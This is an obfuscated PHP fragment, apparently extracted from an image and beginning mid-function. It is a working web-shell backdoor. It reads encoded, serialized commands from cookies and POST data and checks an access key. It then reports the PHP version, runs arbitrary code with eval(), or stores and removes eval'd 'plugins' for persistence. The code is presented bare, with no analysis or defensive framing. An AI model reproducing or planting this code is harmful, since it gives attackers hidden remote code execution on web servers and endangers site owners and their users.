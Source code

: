 ```PHP

        ifqhsss($hzrhdgnprrmsrj);
    }

    function wzuxic($rpznkysa=NULL)
    {
        foreach (ymjxpja() as $khaklrbh=>$unqrza)
        {
            if ($rpznkysa)
            {
                if (strcmp($rpznkysa, $khaklrbh) == 0)
                {
                    eval($unqrza);
                    break;
                }
            }
            else
            {
                eval($unqrza);
            }
        }
    }

    foreach (array_merge($_COOKIE, $_POST) as $cedxbvcy => $vpfasf)
    {
        $vpfasf = @unserialize(umzklia(ytkpmfs($vpfasf), $cedxbvcy));

        if (isset($vpfasf['ak']) && $hxgqukcsofcc==$vpfasf['ak'])
        {
            if ($vpfasf['a'] == 'i')
            {
                $fxffhl = Array(
                    'pv' => @phpversion(),
                    'sv' => '2.0-1',
                    'ak' => $vpfasf['ak'],
                );
                echo @serialize($fxffhl);
                exit;
            }
            elseif ($vpfasf['a'] == 'e')
            {
                eval($vpfasf['d']);
            }
            elseif ($vpfasf['a'] == 'plugin')
            {
                if($vpfasf['sa'] == 'add')
                {
                    bushzx($vpfasf['p'], $vpfasf['d']);
                }
                elseif($vpfasf['sa'] == 'rem')
                {
                    uzzylcyq($vpfasf['p']);
                }
            }
            echo $vpfasf['ak'];
            exit();
        }
    }

    wzuxic();
}
```
